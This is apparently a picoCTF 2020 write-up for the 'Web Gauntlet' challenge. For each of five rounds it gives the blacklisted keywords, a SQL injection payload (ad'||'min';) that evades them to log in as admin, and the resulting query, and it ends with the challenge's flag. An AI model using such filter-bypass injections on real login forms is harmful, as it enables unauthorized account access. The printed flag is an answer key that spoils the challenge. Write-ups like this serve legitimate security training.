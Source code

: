 # Web Gauntlet

```markdown
Tags: `picoCTF 2020 Mini-Competition` `Web Exploitation` 
```

## **Description**

Can you beat the filters? Log in as admin [http://jupiter.challenges.picoctf.org:29164/](http://jupiter.challenges.picoctf.org:29164/) [http://jupiter.challenges.picoctf.org:29164/filter.php](http://jupiter.challenges.picoctf.org:29164/filter.php)

## Round 1/5

<figure><img src="../.gitbook/assets/image (21) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 1: OR&#x20;

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 2/5

<figure><img src="../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 2: or and like = --

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 3/5

<figure><img src="../.gitbook/assets/image (23) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 3: or and = like > < --

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 4/5

<figure><img src="../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 4: or and = like > < -- admin

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 5/5

<figure><img src="../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 5: or and = like > < -- union admin

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1' 
```

## Flag

<figure><img src="../.gitbook/assets/image (26) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (27) (1) (1).png" alt=""><figcaption><p><code>picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
